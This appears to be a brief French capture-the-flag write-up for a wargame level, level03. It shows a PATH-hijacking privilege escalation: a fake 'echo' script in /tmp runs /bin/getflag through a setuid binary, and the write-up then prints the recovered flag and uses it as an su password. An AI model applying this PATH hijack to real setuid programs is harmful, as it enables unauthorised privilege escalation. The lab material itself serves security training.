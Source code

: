 ## 1. Analyser le fichier binaire level03

    On trouve: /usr/bin/env echo Exploit me

## 2. Modifier la commande echo et le PATH

    echo '/bin/getflag' > /tmp/echo
    chmod +x /tmp/echo
    PATH=/tmp

Puis on execute ./level03

    Cela affiche: qi0maab88jeaj46qoumi7maus

## 3. Connexion

/bin/su level02

    Mot de passe : qi0maab88jeaj46qoumi7maus